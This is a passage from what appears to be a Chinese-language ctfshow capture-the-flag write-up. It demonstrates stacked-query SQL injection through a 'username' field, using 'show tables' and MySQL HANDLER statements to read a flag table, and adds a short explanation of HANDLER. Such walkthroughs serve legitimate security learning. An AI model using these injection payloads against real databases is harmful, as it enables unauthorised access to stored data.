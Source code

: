 ```
username=1';show tables;
```

![image-20250216154601897](../assets/image-20250216154601897.png)

可以用handler读

payload:

```
username=ctfshow';show tables;handler ctfshow_flagasa open;handler ctfshow_flagasa read first;
```

![image-20250216154743625](../assets/image-20250216154743625.png)

> 1.`handler ctfshow_flag as a open;`
>
> `HANDLER` 语句是 MySQL 中用于直接操作表的一种特殊方式。此语句的作用是打开一个名为 `ctfshow_flag` 的表，并将其别名为 `a`。`HANDLER` 语句可以绕过一些常规的查询机制，直接访问表的数据，通常用于高效地获取数据。
>
> 2.`handler ctfshow_flag as a read first;`
>
> 该语句继续使用 `HANDLER` 来操作之前打开的 `ctfshow_flag` 表（别名 `a`），`read first` 表示读取表中的第一行数据。



其他方法

![image-20250216155035890](../assets/image-20250216155035890.png)
